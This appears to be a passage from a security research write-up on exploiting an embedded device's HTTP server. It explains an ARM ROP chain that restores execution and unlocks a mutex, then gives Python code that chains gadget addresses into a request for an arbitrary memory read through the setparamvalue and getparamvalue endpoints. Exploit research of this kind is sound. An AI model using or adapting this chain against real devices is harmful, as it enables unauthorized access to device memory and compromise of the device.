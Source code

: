 ```
# | 0xc05c49d8 | c05c49d8 | add.w r11,r10,r8 | c05c49e0  | blx r4  | <- clobbers r1/2, thumb as well probs, but sets the r11 to something we control
```

Essentially the chain does the following:
- Save the value of the **sp** to a fixed location in memory (*0xc09ae8d4*)
- Decrement all the pointers that need decrementing (after reversing the fixed locations of the expected structures)
- Fix up the **index.html** callback
- Increment the value of the saved **sp** by *0x5d4* so that it is correct when execution is given back
- Set the value of **r7** to be the address of the mutex that needs to be unlocked
- Set **r11** to be the correct stack pointer value, and jump to the epilogue of **http_request_proc**
- Finally jump to **0xc02202e4**, which copies **r7** to **r0** and calls **pthread_mutex_unlock**, then returns

## Memory Read

To achieve this, I used the **setparamvalue** HTTP endpoint to write an address to a known global location (specifically, I know the location of a pointer to a struct that holds the value). The ROP-chain works as follows: it retrieves the value from the *encodec* parameter, which was set in an earlier request. The chain then loads this value, accesses the data at the referenced pointer, and saves the retrieved data back into the *encodec* parameter. This updated value can later be retrieved through a *getparamvalue* HTTP request.

```
-python
...
# | 0xc004e374 | c004e374 | str r0,[r5,#0xd6c] | c004e378  | ldmia sp!,{r4,r5,r6,r7,r8,pc} | 
request += p32(0xc09afa54 - 0x24) # r4 <- pointer to encodec config struct
request += p32(0xc0572494) # r5
request += p32(0xc0032894) # r6
request += p32(0xdeadbeef) # r7
request += p32(0xc0117ad4) # r8 
request += p32(0xc010dc94) # pc

# load pointer at encodec param into r2
# | 0xc010dc94 | c010dc94 | ldr r0,[r4,#0x24] | c010dc98  | blx r8 | 

# get the value stored in the encodec config entry struct
# | 0xc0117ad4 | c0117ad4 | ldr r0,[r0,#0x14] | c0117ad8 | ldmia sp!,{r11,pc} |
request += p32(0xdeadbeef) # r11
request += p32(0xc0586b48) # pc

# r0 contains the pointer we want to read
# | 0xc0586b48 | c0586b48 | cpy r4,r0 | c0586b50 | blx r5 | 

# after this r3 contains the value we want to save to the language pointer (we pre-adjusted address to account for offset)
# | 0xc0572494 | c0572494 | ldr r3,[r4,#0x4] | c057249c  | blx r6 | 

# | 0xc0032894 | c0032894 | ldmia sp!,{r4,r5,pc} |
request += p32(0xc09afa54) # r4 <- pointer to encodec config struct where we save
request += p32(0xc0160358) # r5
request += p32(0xc035ad94) # pc

# | 0xc035ad94 | c035ad94 | ldr r0,[r4,#0x0] | c035ad9c | blx r5 | 

# | 0xc0160358 | c0160358 | str r3,[r0,#0x14]| c016035c | ldmia sp!,{r11,pc}| 
request += p32(0xdeadbeef) # r11
request += p32(0xc003c2bc) # pc
...
```